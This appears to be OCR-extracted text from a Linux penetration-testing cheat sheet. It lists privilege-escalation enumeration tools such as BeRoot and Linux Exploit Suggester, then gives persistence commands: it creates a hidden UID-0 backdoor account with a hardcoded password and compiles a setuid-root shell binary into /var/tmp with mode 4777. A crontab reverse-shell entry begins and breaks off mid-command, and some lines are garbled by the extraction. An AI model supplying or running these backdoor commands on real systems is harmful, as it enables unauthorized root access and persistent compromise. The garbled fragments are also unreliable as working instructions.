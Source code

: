 	- BeRoot

		- Commands

			- $ python beroot
			- $ python beroot --password $PASSWORD

		- URL

			- https://github.com/AlessandroZ/BeRoot

		- Categories Performed

			- GTFOBins
			- Wildcards
			- Sensitive Files
			- Services
			- SUID Binaries
			- Path Enviroment Variable
			- NFS Root Squashing
			- LD_PRELOAD
			- Sudoers file
			- Sudo list
			- Python Library Hijacking
			- Capabilities
			- Ptrace Scope
			- Exploit Suggest

	- Linux Priv Checker

		- https://github.com/linted/linuxprivchecker

	- Unix PrivEsc Check

		- http://pentestmonkey.net/tools/audit/unix-privesc-check

	- Linux Exploit Suggester

		- https://github.com/jondonas/linux-exploit-suggester-2

- Persistence

	- Create a root user

		- sudo useradd -ou 0 -g 0 john 
		- sudo passwd john 
		-  echo "linuxpassword" | passwd --stdin john 

	- SUID Binary

		- TMPDIR2="/var/tmp"
		- echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > 
		- $TMPDIR2/croissant.c 
		- gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
		- rm $TMPDIR2/croissant.c 
		- chown root:root $TMPDIR2/croissant 
		- chmod 4777 $TMPDIR2/croissant  Crontab - Reverse shell  (crontab -l; echo "@reboot sleep

	- Crontab - Reverse Shell
